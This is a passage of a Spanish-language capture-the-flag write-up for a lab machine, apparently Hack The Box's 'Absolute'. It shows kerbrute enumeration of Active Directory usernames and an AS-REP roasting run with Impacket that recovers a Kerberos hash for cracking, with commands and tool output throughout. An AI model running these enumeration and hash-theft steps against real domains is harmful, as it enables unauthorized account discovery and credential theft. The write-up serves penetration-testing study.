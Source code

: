 ```shell
❯ /usr/bin/cat userlist.txt
jroberts
mchaffrey
dklay
sosvald
jrobinson
nsmith
jamesr
michaelc
donaldk
saraho
jefferr
nicoles
j.roberts
m.chaffrey
<SNIP>
```
Usamos kerbrute para enumerar los usuarios y encontramos que un patrón es válido para todos ellos.

```shell
❯ kerbrute userenum -d absolute.htb --dc 10.10.11.181 userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/23/23 - Ronnie Flathers @ropnop

2023/02/23 21:56:31 >  Using KDC(s):
2023/02/23 21:56:31 >  	10.10.11.181:88

2023/02/23 21:56:32 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2023/02/23 21:56:32 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2023/02/23 21:56:32 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2023/02/23 21:56:32 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2023/02/23 21:56:32 >  [+] VALID USERNAME:	n.smith@absolute.htb
2023/02/23 21:56:32 >  [+] VALID USERNAME:	d.klay@absolute.htb
2023/02/23 21:56:37 >  Done! Tested 48 usernames (6 valid) in 6.082 seconds
```
Podemos intentar aplicar un asreproast attack para ver si podemos obtener algún hash de algún usuario. Al ejecutarlo vemos que obtenemos el hash del usuario d.klay. Que procedemos a crackearlo.

```shell
❯ GetNPUsers.py absolute.htb/ -no-pass -usersfile userlist.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:74d394343487190d5b4d87f754334b64$<SNIP>
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Logramos crackear el hash y obtenemos la contraseña del usuario, ahora debemos enumerar otros servicios usando esta contraseña.
